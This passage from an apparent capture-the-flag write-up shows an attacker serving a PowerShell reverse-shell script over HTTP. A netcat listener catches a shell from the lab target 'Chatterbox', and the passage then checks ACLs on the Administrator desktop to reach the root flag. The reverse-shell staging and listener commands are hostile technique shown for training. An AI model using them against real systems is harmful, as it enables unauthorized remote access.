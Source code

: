 ```

root@kali# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.74 - - [18/Jun/2018 08:36:35] "GET /Invoke-PowerShellTcp-8082.ps1 HTTP/1.1" 200 -

```

```

root@kali# nc -lnvp 8082
listening on [any] 8082 ...
connect to [10.10.14.159] from (UNKNOWN) [10.10.10.74] 49159
Windows PowerShell running as user Alfred on CHATTERBOX
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Windows\system32> whoami
chatterbox\alfred

```

## Reading root.txt

I didn’t actually get an administrator/system shell on this host, as it wasn’t necessary to read the root flag.

We Alfred, we can access the administrator’s desktop, but can’t read the file:

```

c:\Users\Administrator\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 9034-6528

 Directory of c:\Users\Administrator\Desktop

12/10/2017  07:50 PM    <DIR>          .
12/10/2017  07:50 PM    <DIR>          ..
12/10/2017  07:50 PM                32 root.txt
               1 File(s)             32 bytes
               2 Dir(s)  18,162,110,464 bytes free

c:\Users\Administrator\Desktop>type root.txt
Access is denied.

```

If we look at the directory for Desktop itself, Alfred actually has permissions on it:

```

C:\Users\Administrator>icacls Desktop
icacls Desktop
Desktop NT AUTHORITY\SYSTEM:(I)(OI)(CI)(F)
        CHATTERBOX\Administrator:(I)(OI)(CI)(F)
        BUILTIN\Administrators:(I)(OI)(CI)(F)
        CHATTERBOX\Alfred:(I)(OI)(CI)(F)

Successfully processed 1 files; Failed processing 0 files

```
